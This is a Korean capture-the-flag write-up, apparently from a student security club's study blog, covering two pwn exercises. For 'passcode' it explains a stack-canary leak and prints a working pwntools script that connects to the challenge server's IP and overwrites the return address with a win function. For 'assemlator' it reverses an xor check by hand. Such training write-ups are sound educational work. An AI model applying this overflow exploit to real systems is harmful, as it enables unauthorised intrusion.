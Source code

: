 ```yaml
---
title: "[Pwn] Pwn Study Weak 2"
date: 2021-11-29T09:24:22+09:00
categories:
- Pwn
- Whois
tags:
- Pwn
keywords:
- tech
#thumbnailImage: //example.com/image.jpg
---
```


<!--more-->

이번에도 Whois 신입 회원 교육 과제를 포스팅하려고 한다. (1번 문제는 면제받았다!)  


# passcode

![problem](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/Weak_2/passcode/problem.PNG?raw=true)

까나리 문제구나.. 냄새난다.. 일단 실행부터 해보자.  

![ex](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/Weak_2/passcode/ex.PNG?raw=true)

두 번의 입력, 중간의 한 번의 출력. 이는 명백한 canary 출력을 이용한 문제다.  
그 전에 main부터 확인해보자.

![pd main](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/Weak_2/passcode/pd%20main.PNG?raw=true)

흠.. 전체적으로 보면 잘 모르겠지만, 중요해보이는 부분이 몇 개 있다. 첫 번째가 아래다.  

![fque](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/Weak_2/passcode/fque.PNG?raw=true)

generate_passcode 함수를 실행한 후, rbp-0x8에 0x4040b0의 데이터를 복사한다.  
처음에는 무엇인지 이해하기 어렵지만 main의 아래를 보면 이해할 수 있다.  

![cmp](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/Weak_2/passcode/cmp.PNG?raw=true)

canary다. 자체적으로 걸린 보호기법이 아닌 사람이 직접 만든 canary라는 것이다.. (존-경)  
그러면 canary의 생성루틴을 확인해보자.  

![pd generate](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/Weak_2/passcode/pd%20generate.PNG?raw=true)

흠.. 0x402008를 open을 통해서 열고, read 함수로 읽은 값을 다양한 연산을 하고  
rbp-0x8 위치에 하나씩 삽입한다. 그렇다면 0x402008이 뭘까?  

![ran](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/Weak_2/passcode/ran.PNG?raw=true)

urandom, 즉 랜덤함수다. 처음의 필자는 이 부분에서 urandom 취약점인 줄 알고 시간을 엄청 소비했다.  
하지만 반환 랜덤값에 추가적인 연산이 더해지면서 이러한 취약점은 방어되었다.  
그렇다면 canary를 출력해보자. main을 보면 rbp-0x20에서부터 입력을 받는데,  
canary는 rbp-0x8에 위치해있다. 이는 문자열을 0x18번 입력한 후, Enter가 아닌 eof로 종료하여  
Canary까지 출력함으로서 문제를 해결할 수 있다.  

![canary](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/Weak_2/passcode/canary.PNG?raw=true)

이렇게 canary를 알아낼 수 있다. 이를 이용해서 ret를 변조할 수 있는데, 해당 파일은 NX가 걸려있다.  
즉, Stack에서 실행권한이 없다. 그렇다면 다른 함수는 없을까? 찾아보자.  

![win](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/Weak_2/passcode/win.PNG?raw=true)

info func을 통해서 찾은 결과 win 함수를 찾을 수 있었다. 내부 소스를 보자.  

![pd win](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/Weak_2/passcode/pd%20win.PNG?raw=true)

system 함수로 cat flag를 실행한다. 즉, 이 함수 시작 주소를 ret에 넣어줘서 문제를 풀면 된다.  
지금까지의 모든 정보를 종합하여 payload를 작성하면 아래와 같다.  

```Python3
from pwn import *
context.log_level='debug'

#r = process('./passcode', stdin=PTY, raw=False)
r = remote('49.50.167.74', 5202)

r.recvuntil(':D')
r.send("AAAAAAAAAAAAAAAAAAAAAAAA")

tmp = r.recvline()
tmp = r.recvline()
tmp1 = tmp[-12:-4]

tmp2 = list(tmp1)
tmp3 = [0, 0, 0, 0, 0, 0, 0, 0]

for i in range(0,8):
	tmp3[i] = int(tmp2[i])
	
r.recvuntil('passcode?')

ret = 0x00000000004012d0
A = 0x4141414141414141

pay = p64(A) + p64(A) + p64(A) + bytes([tmp3[0]])+bytes([tmp3[1]])+bytes([tmp3[2]])+bytes([tmp3[3]])+bytes([tmp3[4]])+bytes([tmp3[5]])+bytes([tmp3[6]])+bytes([tmp3[7]])+ p64(A) + p64(ret)

r.send(pay)
r.interactive()
```

![flag](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/Weak_2/passcode/flag.PNG?raw=true)

#assemlator

두 번째 문제다.  

![problem](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/Weak_2/assemlator/problem.PNG?raw=true)

흐어.. 어셈..싫어..  

![play](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/Weak_2/assemlator/play.PNG?raw=true)

내가 뭐를 했다고 틀렸다고 하십니까...  
gdb를 통해서 열어보자.  

![pd main](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/Weak_2/assemlator/pd%20main.PNG?raw=true)

흠.. 전체적으로 무난한데, 한 가지 특이한 부분이 있다.  

![important](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/Weak_2/assemlator/important.PNG?raw=true)

scanf하여 입력받은 문자열을 assembly_calc에 인자로 넘겨주어 실행한다.  
그 이후는 canary니까 무관하다. 그렇다면 assembly_calc를 열어보자!  

![pd assembly_calc](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/Weak_2/assemlator/pd%20assembly_calc.PNG?raw=true)

전체적으로 보면 파일을 열고 이를 읽어서 몇 가지 추가적인 연산을 한 후에,  
최종적으로 0x123456789와 같은지 검사한다.  

![cmp](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/Weak_2/assemlator/cmp.PNG?raw=true)

코드를 보다보면 결국 하는 것이라고는 xor과 sub 0xdcba이다.  
그렇다면 거꾸로 생각해보자. 0x123456789에 0xdcba를 더하면 그 전의 값이 나올 것이다.  
이는 0x123464443이다. xor만 역연산하면 된다. 이는 특정한 값이 0xabcd와 xor하여 나온 값이  
0x123464443이라는 것이다. 하위 2byte만 보면 된다. 0xabcd가 2byte이기 때문이다.  
0xabcd의 2진수는 다음과 같다. 1010 1011 1100 1101, 여기서 최종적으로 0100 0100 0100 0011이  
나와야 한다. xor은 둘이 다를 경우가 1이 된다. 즉, 생각해보면 정답을 도출해낼 수 있다.  
우리가 입력해야 하는 값은 1110 1111 1000 1110 이다. 이를 16진수로 변환하면 0xEF8E다.  
모든 정보를 종합하여 최종적으로 0x12346EF8E가 되며, Scanf를 %lld로 받기 때문에 정답의 10진수인  
4886818702를 입력해야 한다.  

![flag](https://github.com/RoomRooms/blog/blob/master/img/Pwn/Whois_Study/Weak_2/assemlator/flag.PNG?raw=true)

